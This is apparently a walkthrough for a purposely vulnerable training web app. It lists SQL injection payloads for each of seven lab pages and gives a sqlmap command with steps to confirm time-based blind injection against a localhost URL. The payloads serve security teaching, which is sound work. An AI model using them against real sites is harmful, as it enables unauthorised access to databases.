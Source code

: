 # How to perform SQL Injection in this Site

There are different payloads you can use to perform different kind of attacks and show different types of results in all 7 levels of SQL Injection in this site.

## Payloads to Display all Data in the table using Conditional Statement

### sql1.php:

**Payload:** _' or 1 = 1--'_

### sql2.php:

**Payload:** _1 or 1=1_

### sql3.php:

**Payload:** _1 or 1=1_

### sql4.php:

This file is relatively secure and prevents the conditional statement based attacks.

### sql5.php:

This file is relatively secure and prevents the conditional statement based attacks.

### sql6.php:

**Payload:** _' or 1 = 1--'_

**Payload:** _1 or 1=1_

### sql7.php:

**Payload:** _' or 1 = 1--'_

## Time Based Blind attack using SQLMap

### sql7.php:

1. Search for any book in the books table in the books database.
2. Copy the URL you get and paste it onto terminal with the sqlmap command. Here the book searched for was Things Fall Apart:

`sqlmap.py -u "http://localhost/Vulnerable-Web-Application/SQL/sql7.php?searchterm=Things+Fall+Apart" --tables`

3. Upon running the above command you'll be promoted to choose between yes or no for a lot of things. Choose yes for all.
4. Upon completion, a payload will apear on terminal. Copy and paste that onto the searchbox on sql7.php.
5. You'll see there's a sleep command with a number like 5 in brackets. The page takes 5 seconds to load before showing an output when searching for the payload.
6. Try changing the number in the sleep bracket to 10 and notice now it takes 10 seconds. This proves the time based blind SQL Injection is complete.
